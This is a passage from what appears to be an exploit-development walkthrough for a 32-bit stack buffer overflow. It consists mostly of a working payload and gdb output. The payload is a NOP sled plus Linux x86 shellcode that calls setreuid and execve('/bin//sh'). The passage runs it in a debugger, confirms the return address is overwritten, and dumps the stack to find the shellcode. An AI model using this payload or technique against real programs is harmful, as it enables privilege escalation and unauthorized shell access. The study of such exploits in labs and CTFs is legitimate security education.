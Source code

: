 ```ruby
$(echo -n -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x31\x58\x31\xd2\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80\x42\x42\x42\x42")
```

Let's run gdb and see what we get:

```ruby
(gdb) r $(echo -n -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x31\x58\x31\xd2\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80\x42\x42\x42\x42")

The program being debugged has been started already.

Breakpoint 1, 0x08049219 in main ()

(gdb) si

0x42424242 in ?? ()
```

Great, we overwrote EIP successfully with four B's, now lets find the memory address of our payload:

```ruby
(gdb) x/300xw $esp
<code snipped>
0xffffd610: 0x61696e72 0x72616e2f 0x3461696e 0x90909000
0xffffd620: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffd630: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffd640: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffd650: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffd660: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffd670: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffd680: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffd690: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffd6a0: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffd6b0: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffd6c0: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffd6d0: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffd6e0: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffd6f0: 0x90909090 0x90909090 0x90909090 0x90909090
0xffffd700: 0x316a9090 0xcdd23158 0x89c38980 0x58466ac1
0xffffd710: 0x0bb080cd 0x2f6e6852 0x2f686873 0x8969622f
0xffffd720: 0xcdd189e3 0x42424280 0x00000042 0x00000000
<code snipped>
```
